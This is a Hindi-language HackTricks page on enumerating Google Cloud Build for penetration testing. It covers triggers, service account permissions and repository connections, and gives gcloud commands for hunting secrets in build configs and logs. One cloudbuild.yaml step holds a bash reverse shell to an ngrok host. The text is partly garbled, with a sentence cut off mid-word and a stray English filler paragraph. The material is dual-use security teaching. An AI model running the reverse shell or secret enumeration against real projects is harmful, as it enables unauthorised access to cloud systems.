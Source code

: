 # GCP - Cloud Build Enum

<details>

<summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफ़ॉर्म है जो **सॉफ़्टवेयर निर्माण** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **स्रोत कोड भंडारों** के साथ एकीकरण करता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपर्स को कोड को स्वचालित रूप से निर्माण, परीक्षण और डिप्लॉय** करने की अनुमति देता है जबकि निर्माण चरणों और कार्यप्रवाहों को अनुकूलित करने की लचीलाता प्रदान करता है।

प्रत्येक Cloud Build Trigger **एक Cloud Repository से संबंधित है या सीधे एक बाह्य रिपॉजिटरी** (Github, Bitbucket और Gitlab) से कनेक्ट किया गया है।

{% hint style="success" %}
मैंने यहाँ से या Cloud Repositories से **Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा** क्योंकि जब रेपो डाउनलोड किया जाता है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### घटनाएँ

Cloud Build को निम्नलिखित की गई स्थितियों में ट्रिगर किया जा सकता है:

* **एक शाखा में पुश**: शाखा को निर्दिष्ट करें
* **नया टैग पुश**: टैग को निर्दिष्ट करें
* **पुल अनुरोध**: पीआर प्राप्त करने वाली शाखा को निर्दिष्ट करें
* **मैन्युअल आवाहन**
* **Pub/Sub संदेश**: विषय को निर्दिष्ट करें
* **वेबहुक घटना**: एक HTTPS URL उजागर करेगा और अनुरोध को एक गुप्त से प्रमाणित करना होगा

### क्रियान्वयन

3 विकल्प हैं:

* एक yaml/json **निर्देशित करना** जो कमांड को निष्पादित करेगा। सामान्यत: `/cloudbuild.yaml`
* केवल एक जो वेब कंसोल और cli में "इनलाइन" निर्दिष्ट किया जा सकता है
* सबसे सामान्य विकल्प
* अनाथ पहुंच के लिए महत्वपूर्ण
* एक **Dockerfile** को निर्माण करने के लिए
* एक **Buildpack** को निर्माण करने के लिए

### SA अनुमतियाँ

**सेवा खाता में `cloud-platform` दायित्व है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** यदि **कोई SA निर्दिष्ट नहीं किया गया है** (जैसे सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` का उपयोग होगा।**

डिफ़ॉल्ट रूप से कोई अनुमतियाँ नहीं दी गई हैं लेकिन इसे कुछ देना बहुत आसान है:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### मंजूरी

एक Cloud Build को **निर्माण क्रियाओं के लिए मंजूरी की आवश्यकता** हो सकती है (डिफ़ॉल्ट रूप से अक्षम).

### कनेक्शन और रिपॉजिटरी

कनेक्शन निम्नलिखित के माध्यम से बनाए जा सकते हैं:

* **GitHub:** यह एक OAuth प्रॉम्प्ट दिखाएगा जिसमें अनुमतियाँ मांगी जाएगी ताकि **एक Github टोकन प्राप्त किया जा सके** जो **Secret Manager** में स्टोर किया जाएगा।
* **GitHub Enterprise:** यह एक **GithubApp** स्थापित करने के लिए कहेगा। आपके GitHub Enterprise होस्ट से एक प्रमाणीकरण टोकन बनाया जाएगा और इस परियोजना में एक **Secret Manager** गुप्त स्थान में स्टोर किया जाएगा।
* **GitLab / Enterprise:** आपको **API एक्सेस टोकन और पढ़ने के लिए API एक्सेस टोकन** प्रदान करना होगा जो **Secret Manager** में स्टोर किया जाएगा।

एक कनेक्शन उत्पन्न होने के बाद, आप इसे उपयोग कर सकते हैं **जिसमें Github खाता पहुंच है**।

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
ध्यान दें कि इस तरीके से कनेक्ट किए गए रिपॉजिटरी **केवल 2वीं पीढ़ी का उपयोग करने वाले ट्रिगर में ही उपलब्ध हैं।**
{% endhint %}

### रिपॉजिटरी कनेक्ट करें

यह **`कनेक्शन`** के समान नहीं है। यह **अलग** तरीके से **एक Github या Bitbucket** रिपॉजिटरी तक पहुंच प्राप्त करने के लिए अनेक तरीके प्रदान करता है लेकिन **कनेक्शन ऑब्जेक्ट उत्पन्न नहीं करता है, लेकिन यह 1वीं पीढ़ी का रिपॉजिटरी ऑब्ज
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
एक स्टोरेज बकेट नामक [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) बनाया गया है ताकि इसमें उपयोग के लिए फ़ाइल्स के साथ `.tgz` स्टोर किया जा सके।

### शैल को प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
**ग्क्लाउड बिल्ड के अंदर जीक्लाउड इंस्टॉल करें:**

To install gcloud inside cloud build, you can use the following steps:

1. Add the necessary steps in your cloud build configuration file to install gcloud.
2. Use the appropriate commands to download and install gcloud within the cloud build environment.
3. Make sure to set up any required configurations or authentication for gcloud to function correctly within the cloud build environment.
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### जांच

आप **बिल्ड कॉन्फ़िग और लॉग में संवेदनशील जानकारी** पा सकते हैं।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार उन्नयन

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुंच

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) वाले [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकिंग ट्रिक्स और हैकिंग ट्रिक्स क्लाउड गिटहब रेपो में PR जमा करके।

</details>
